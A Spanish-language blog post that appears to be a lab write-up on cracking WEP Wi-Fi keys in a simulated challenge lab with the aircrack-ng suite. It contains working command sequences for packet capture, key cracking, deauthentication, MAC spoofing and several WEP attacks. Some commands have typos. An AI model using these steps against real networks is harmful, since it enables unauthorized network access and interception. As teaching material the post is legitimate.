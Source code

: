 ```yaml
---
layout: post
title: "Hacking Wifi - WEP"
categories: Hacking-wifi/WEP
---
```


<p align="center">
<img src="/assets/wifi/hacking-web/icon.png">
</p>

## Introducción WEP

- Wired Equivalent Privacy (Privacidad Equivalente a la Conexión por Cable), es un protocolo de seguridad diseñado para proteger las redes inalámbricas. Fue uno de los primeros estándares de seguridad utilizado en redes Wi-Fi, pero se considera obsoleto y se ha vuelto vulnerable a ataques, este protocolo cifra el tráfico con una clave hexadecimal de **64 o 128 bits** todo el tráfico se cifra con una única clave.

>WEP utiliza un esquema de cifrado de clave compartida, donde todas las estaciones en la red comparten una clave secreta. El problema principal con WEP es que presenta debilidades significativas en su implementación del cifrado, lo que hace que sea relativamente fácil para los atacantes interceptar y descifrar el tráfico de la red. Los ataques a WEP incluyen la recopilación de paquetes y el uso de herramientas como Aircrack-ng para descifrar la clave.

## Creando un AP que use el protocolo WEP

- En caso de que quieras desplegar el **AP** tu mismo puedes seguir estos pasos para hacerlo exitosamente <https://tonyharris.io/posts/virtual_wifi_lab/> en mi caso estare empleando el **AP** ya desplegado del **WifiChallengev2** <https://wifichallengelab.com/>.

## Atacando el protocolo WEP

- Bueno lo primero que haremos es poner nuestra antena de red en modo monitor en caso de estar empleando el lab de **wifichallenge** ya tiene integrada la interfaz asi que solo haremos lo siguiente.

>Las partes censuradas es por que hay mas usuarios completando el laboratorio para evitar una mala experiencia y meterme en problemas con el creador lo hare de esa forma.

```bash
root@WiFiChallengeLab:/home/user/AP# airmon-ng start wlan0

Found 5 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    611 avahi-daemon
    614 NetworkManager
    633 wpa_supplicant
    665 avahi-daemon
    945 ifplugd

PHY	Interface	Driver		Chipset

phy0	wlan0		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211

		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
		(mac80211 station mode vif disabled for [phy0]wlan0)
phy1	wlan1		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy2	wlan2		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy3	wlan3		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy4	wlan4		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy5	wlan5		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy6	wlan6		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy60	wlan60		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
```

- Ahora matamos los procesos que no nos sirven.

```bash
root@WiFiChallengeLab:/home/user/AP# airmon-ng check kill

Killing these processes:

    PID Name
    633 wpa_supplicant
    945 ifplugd
 406555 avahi-daemon
 406769 avahi-daemon

root@WiFiChallengeLab:/home/user/AP# 
```

- Una vez hecho esto comenzamos capturando el trafico en este caso vemos que el **AP** existe y esta operativo.

<p align="center">
<img src="https://i.imgur.com/tGjkeMj.png">
</p>

```bash
❯ airodump-ng wlan0mon
```

- Y bueno hay un cliente asociado a ese **AP** vamos a estar capturando paquetes en la columna de **Data** entre mas tengamos mas probabilidades hay de crackear la contraseña.

```bash
root@WiFiChallengeLab:/home/user/AP# airodump-ng wlan0mon -c 1 -w captura
```

- Podemos ver que ya hemos recolectado muchos. 

<p align="center">
<img src="https://i.imgur.com/OABgdbb.png">
</p>

- Una vez paramos el ataque podemos hacer lo siguiente para crackear la contraseña.

```bash
root@WiFiChallengeLab:/home/user/AP# aircrack-ng captura-01.cap -w /root/wifi-rockyou.txt
```

- En caso de no encontrar la contraseña veras algo como esto **Si la contraseña fue encontrada la veras en texto plano**..

<p align="center">
<img src="https://i.imgur.com/yzgc60n.png">
</p>

- Ahora podemos usar otra herramienta que es **besside-ng** ya que esta herramienta esta diseñada para encontrar claves **WEP** solo le pasamos la **MAC** y el canal en el que opera.

```bash
root@WiFiChallengeLab:/home/user/AP# besside-ng -c 1 -b F0:9F:C2:AA:19:29 wlan2
```

- Ahora podemos ver la **KEY**.

<p align="center">
<img src="https://i.imgur.com/5hWf7M7.png">
</p>

## Mas ataques

- Este protocolo esta obsoleto pero aqui te comparto mas ataques.

# Fake Authentication Attack

```bash
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreCaptura> wlan0mon
❯ aireplay-ng -1 0 -a <BSSID> -h <nuestraMAC> -e <ESSID> wlan0mon
❯ aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <nuestraMAC> wlan0mon
❯ aircrack-ng –b <BSSID> <archivoPCAP>
```

# ARP Replay Attack

```bash
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreCaptura> wlan0mon
❯ aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <nuestraMAC> wlan0mon
❯ aircrack-ng –b <BSSID> <archivoPCAP>
```

# Chop Chop Attack

```bash
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreArchivo> wlan0mon
❯ aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <nuestraMAC> wlan0mon
❯ aireplay-ng -4 –b <BSSID> -h <nuestraMAC> wlan0mon
 # Presionamos ‘y’ ;
❯ packetforge-ng -0 –a <BSSID> -h <nuestraMAC> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
❯ aireplay-ng -2 –r <FileName2> wlan0mon
❯ aircrack-ng <archivoPCAP>
```

# Fragmentation Attack

```bash
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreArchivo> wlan0mon
❯ aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <nuestraMAC> wlan0mon
❯ aireplay-ng -5 –b<BSSID> -h <nuestraMAC > wlan0mon
# Presionamos ‘y’ ;
❯ packetforge-ng -0 –a <BSSID> -h <nuestraMAC> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
❯ aireplay-ng -2 –r <FileName2> wlan0mon
❯ aircrack-ng <archivoPCAP>
```

# SKA Type Cracking

```bash
❯ airmon-ng start wlan0
❯ airodump-ng –c <Canal_AP> --bssid <BSSID> -w <nombreArchivo> wlan0mon
❯ aireplay-ng -0 10 –a <BSSID> -c <macVictima> wlan0mon
❯ ifconfig wlan0mon down
❯ macchanger –-mac <macVictima> wlan0mon
❯ fconfig wlan0mon up
❯ aireplay-ng -3 –b <BSSID> -h <macFalsa> wlan0mon
❯ aireplay-ng –-deauth 1 –a <BSSID> -h <macFalsa> wlan0mon
❯ aircrack-ng <archivoPCAP>
```
